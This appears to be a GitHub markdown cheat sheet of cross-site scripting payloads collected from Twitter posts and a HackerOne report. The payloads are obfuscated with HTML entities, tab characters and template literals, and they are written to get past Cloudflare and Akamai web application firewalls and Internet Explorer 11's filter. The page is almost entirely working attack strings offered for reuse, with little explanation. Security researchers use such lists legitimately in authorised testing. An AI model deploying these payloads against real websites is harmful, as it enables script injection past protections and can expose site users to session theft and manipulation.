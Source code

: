 # XSS Twitter Tips

## Cloudflare XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```
----------------------------------------------------------------------------------------

*[Tweet](https://twitter.com/s0md3v/status/1100734547962998785) By [s0md3v](https://twitter.com/s0md3v)*
```html
<a"/onclick=(confirm)()>Click Here!
```


## Akamai XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*
```html
“><svg/on</script>laod=alert>
```
----------------------------------------------------------------------------------------

*[Tweet](https://twitter.com/saamux/status/1238449598051516418) By [saamux](https://twitter.com/saamux)*

A good way to bypass the Akamai WAF by exploiting a redirect-based XSS is with the following payload:

```javascript
javascript:new%20Function`al\ert\`1\``;
```
You can also obfuscate it using HTML entities

## WAF/filter Bypass
*[Tweet](https://twitter.com/si9int/status/1239633166438223874) By [si9int](https://twitter.com/si9int)*
![XSS](https://images-ext-1.discordapp.net/external/igR8oewSZci1zKzKoqk0xr9PunkJoDHTmGgLLi6FYfw/https/pbs.twimg.com/media/ETQPvU3WoAMiDBw.png%3Alarge)

## IE Bypass

### IE 11 Xss Bypass 
*[Report #127259](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)*

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
